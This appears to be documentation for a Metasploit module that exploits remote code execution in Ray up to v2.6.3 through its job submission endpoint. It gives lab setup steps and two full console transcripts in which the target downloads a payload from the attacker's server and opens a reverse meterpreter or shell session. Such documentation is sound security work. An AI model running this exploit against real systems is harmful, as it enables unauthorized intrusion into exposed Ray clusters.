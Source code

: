 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via the agent job submission endpoint

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_agent_job_rce`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options
No options

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_EJDSK2BrhAP8j69n' Submission ID: 'raysubmit_EJDSK2BrhAP8j69n'
[*] Using URL: http://192.168.56.1:8080/kOZWO5HA3wWm2Hh
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /kOZWO5HA3wWm2Hh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:42052) at 2024-08-10 10:45:48 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > set target 1
target => 1
msf6 exploit(linux/http/ray_agent_job_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_RNpiJJt2feNrUrwN' Submission ID: 'raysubmit_RNpiJJt2feNrUrwN'
[*] Using URL: http://192.168.56.1:8080/QtpKXmqA8kq
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /QtpKXmqA8kq
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:35136) at 2024-08-10 10:47:37 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```
